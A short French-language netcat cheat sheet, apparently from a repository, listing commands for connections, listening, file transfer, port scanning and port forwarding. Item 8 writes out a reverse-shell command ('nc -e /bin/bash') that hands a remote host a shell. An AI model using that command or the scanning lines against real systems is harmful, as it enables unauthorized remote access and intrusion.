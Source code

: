 # Guide netcat

# Généralités
* Outil qui permet les actions suivantes 
	* Connexions réseau et ouverture de port
	* Transfert de fichier 

# Netcat CheatSheet

1. Créer une connexion TCP :
``nc <adresse_IP> <port>``

2. Créer une connexion UDP :
``nc -u <adresse_IP> <port>``

3. Ecouter un port en mode écoute :
``nc -l <port>``

4. Envoyer un fichier via TCP :
``nc <adresse_IP> <port> < fichier``

5. Recevoir un fichier via TCP :
``nc -l <port> > fichier``

6. Scanner un port TCP sur une adresse IP :
``nc -zv <adresse_IP> <port>``

7. Scanner un port UDP sur une adresse IP :
``nc -zu <adresse_IP> <port>``

8. Ouvrir un shell distant (reverse shell) :
``nc -e /bin/bash <adresse_IP> <port>``

9. Transférer un port (port forwarding) :
``nc -l -p <port_local> -c "nc <adresse_distante> <port_destination>"``

10. Utiliser le mode verbose (afficher les détails) :
``nc -v <adresse_IP> <port>``

Résumé des options :
- -u : Utilise le protocole UDP.
- -l : Mode écoute.
- -e : Exécute une commande spécifiée.
- -z : Mode scan (test de port sans envoi de données).
- -v : Mode verbose (affiche les détails des connexions).

